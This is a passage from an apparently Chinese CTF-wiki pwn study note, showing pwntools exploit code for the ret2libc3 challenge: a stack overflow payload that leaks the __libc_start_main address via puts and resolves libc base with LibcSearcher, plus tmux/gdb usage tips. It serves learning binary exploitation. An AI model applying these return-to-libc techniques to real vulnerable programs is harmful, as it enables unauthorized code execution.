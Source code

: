 ```python
libc_start_main_got = ret2libc3.got['__libc_start_main'] 
main=ret2libc3.symbols['main'] 

payload=flat([b'a'*112,puts_plt,main,libc_start_main_got])
p.sendlineafter(b'Can you find it !?',payload)

libc_start_main_addr=u32(p.recv()[0:4])
libc=LibcSearcher('__libc_start_main',libc_start_main_addr)
libcbase=libc_start_main_addr-libc.dump('__libc_start_main')

#手动选择1: ubuntu-glibc (id libc6_2.23-0ubuntu11.3_i386)
```

如下图，光标会聚焦右边屏幕gdb部分

![image-20250221190326539](./ctf-wiki-pwn-learning.assets/image-20250221190326539.png)

按`ctrl+b+o`切换窗格，输入`1`手动选择glibc库
